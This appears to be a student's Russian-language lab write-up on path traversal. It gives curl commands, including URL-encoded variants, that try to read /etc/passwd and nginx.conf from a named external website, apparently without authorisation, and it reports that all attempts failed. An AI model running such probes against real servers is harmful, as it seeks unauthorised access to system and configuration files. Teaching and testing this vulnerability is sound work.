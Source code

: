 # Лабораторная работа №1 - со звёздочкой :star2:
![meme1](https://github.com/MkrtchyanKarina/DevOps_labs/blob/master/lab1_extra/img/meme1.jpg)
## Path traversal (обход пути)
*Уязвимость в веб-приложениях, позволяющая злоумышленнику получить несанкционированный доступ к файлам и директориям на сервере, находящимся за пределами разрешенного корневого каталога.*
1. Установим curl 
```
winget install curl.curl
```

2. Попытаемся сделать обход и получить доступ к системным файлам
```
curl -Uri "https://dshi46.ru/../../../../etc/passwd" | select -First 5
```
> Файл /etc/passwd содержит следующие записи, разделенные двоеточиями:
  > - Имя пользователя
  > - Зашифрованный пароль
  > - Цифровой идентификатор пользователя (UID)
  > - Цифровой идентификатор группы пользователя (GID)
  > - Полное имя пользователя (GECOS)
  > - Домашний каталог пользователя
  > - Оболочка входа в систему

![res1](https://github.com/MkrtchyanKarina/DevOps_labs/blob/master/lab1_extra/img/res1.png)

Попробуем закодировать символы ( %2f = / и, если сервер вдруг на Windows: %5c = \ ), а также получить файл с конфигурациями nginx
```
curl -Uri "https://dshi46.ru/..%2f..%2f..%2f..%2fetc%2fpasswd" | select -First 5
curl -Uri "https://dshi46.ru/..%5c..%5c..%5c..%5cetc%2fpasswd" | select -First 5
curl -Uri "https://dshi46.ru/..%2f..%2f..%2fetc%2fnginx%2fnginx.conf" | select -First 5
```

![res2](https://github.com/MkrtchyanKarina/DevOps_labs/blob/master/lab1_extra/img/res2.png)

Как видим, доступ получить не удалось :(
